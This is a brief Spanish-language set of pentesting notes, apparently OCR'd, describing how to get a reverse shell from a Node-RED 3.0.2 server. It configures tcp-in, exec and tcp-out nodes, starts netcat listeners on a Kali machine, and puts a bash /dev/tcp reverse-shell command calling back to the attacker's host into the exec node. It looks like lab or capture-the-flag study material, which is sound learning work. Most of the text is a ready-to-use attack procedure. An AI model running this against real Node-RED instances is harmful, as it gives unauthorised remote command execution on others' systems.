 16.- node-RED 3.0.2

software web que normalmente corre en el puerto 1880

establecemos 3 nodos:

nodos de netword

tcp in

tcp out

y un nodo functions

exec

la interfaz grafica es la siguiente

tcp in ------> exec ------> tcp out

las 3 puntos de exec se conecta al punto de tcp out

luego configuramos

en kali:

colocamos puertos en escucha

nc -lvnp 443 -> nodo tcp in

nc -lvnp 4444 -> nodo tcp out

en node-red:

nodo tcp in:

Type: connect to

port: 443

at host 192.168.42.133

en exec:

en command:

bash -c "bash -i >& /dev/tcp/IP-KALI/4444 0>&1"

en nodo tcp out:

Type: Reply to TCP

luego seleccionamos todo:

tcp in ------> exec ------> tcp out

(tiene que aparecer una sombra naranja)

y le damos clic en Deploy, tiene que salirme el mensaje Deplou suscessfully

le damos enter en la shell donde tenemos el puerto de escucha 443 y listo tenemos conexión en el puerto 4444

-------------------------------------------------------------------------------
